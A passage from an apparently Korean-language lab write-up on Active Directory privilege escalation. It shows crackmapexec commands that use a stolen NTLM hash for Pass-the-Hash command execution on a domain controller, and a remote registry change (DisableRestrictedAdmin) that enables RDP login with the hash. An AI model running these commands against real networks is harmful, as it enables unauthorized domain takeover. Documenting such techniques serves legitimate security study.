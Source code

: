 WIN-DC Administrator의 평문 패스워드를 모르더라도 SAM 통해 탈취한 NTLM 해시로  권한 상승이 가능합니다. NTLM 해시를 hashcat과 같은 도구를 통해 크랙해도 되지만, Pass-the-Hash로 Domain Controller 권한의 shell을 획득할 수 있습니다. 이는 Domain Controller 그룹 내 계정 관리 소홀로 인해 AD Administrator 권한 상승까지 이어질 수 있음을 보여줍니다.

```jsx
crackmapexec smb 192.168.134.133 -u Administrator -H '0df422499b942b1c7d37fe44191daa2f' -x whoami
```

![/assets/2025-01-02-xeona/image.png](/assets/2025-01-02-xeona/image%2022.png)

1. 원활한 내부 정찰을 위한 Domain Controller Administrator RDP 연결

원활한 Domain Controller 접근을 위해 WIN-DC의 Administrator 권한으로 원격 데스크톱 연결을 시도합니다. RDP를 사용하기 위해서 원격에서 레지스트리 키를 추가하여 칼리 리눅스에서 윈도우 RDP로 붙을 수 있습니다. 해당 레지스트리 키는 원격 로그인이 가능하도록 제한을 해제한다는 내용입니다.

```bash
crackmapexec smb 192.168.134.133 -u Administrator -H "NT_HASH" -x 'reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f'
```

![/assets/2025-01-02-xeona/image.png](/assets/2025-01-02-xeona/image%2023.png)

`HKLM\System\CurrentControlSet\Control\Lsa` 해당 레지스트리는 윈도우 자격 증명에 관한 키 값을 가지고 있는데, 기본적으로 LSA 프로세스를 보호하기 위해 설정되어 있습니다. 여기에 임의로 원격 관리가 가능하도록 키 값을 추가하면 칼리 리눅스(공격자 PC)에서 윈도우로 원격 데스크톱 연결이 가능합니다.

![/assets/2025-01-02-xeona/image.png](/assets/2025-01-02-xeona/image%2024.png)
